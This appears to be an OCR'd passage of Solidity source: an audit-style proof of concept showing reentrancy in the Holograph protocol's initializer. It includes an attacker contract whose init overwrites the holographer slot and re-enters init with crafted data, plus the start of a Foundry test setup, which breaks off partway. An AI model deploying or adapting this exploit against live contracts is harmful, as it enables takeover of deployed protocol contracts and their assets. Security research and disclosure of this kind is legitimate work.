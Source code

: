     //Contract used to show reentrancy in initializer
    contract SourceContract {
        address public holographer;
        MockContract public mc;

        constructor() {
             mc = new MockContract();
        }

        //function that reenters the holographer and sets this contract as the new holograph slot
        function init(bytes memory initPayload) external returns(bytes4) {
            assembly {
                sstore(holographer.slot, caller())
            }
            bytes memory initCode = abi.encode(abi.encode(uint32(1), address(this), bytes32("0xabc"), address(this)), bytes("0x0"));
            holographer.call(abi.encodeWithSignature("init(bytes)", initCode));
            return InitializableInterface.init.selector;
        }

        function getRegistry() external view returns (address) {
            return address(this);
        }

        function getReservedContractTypeAddress(bytes32 contractType) external view returns (address) {
            return address(mc);
        }

        function isTheHolograph() external pure returns (bool) {
            return true;
        }

    }

    //simple extension contract to return easily during reinitialization
    contract MockContract {
        constructor() {}

        function init(bytes memory initPayload) external pure returns(bytes4) {
            return InitializableInterface.init.selector;
        }
    }

    contract HolographTest is Test {
        DeploymentConfig public config;
        Verification public verifiedSignature;
        HolographFactory public hf;
        HolographRegistry public hr;
        Holograph public h;
        HolographERC20 public he20;

        uint256 internal userPrivateKey;
        address internal hrAdmin;
        mapping(uint256 => bool) public _burnedTokens;
        address internal user;
        function setUp() public {
            //Creating all of the required objects
            hf = new HolographFactory();
            hr = new HolographRegistry();
            h = new Holograph();
            he20 = new HolographERC20();

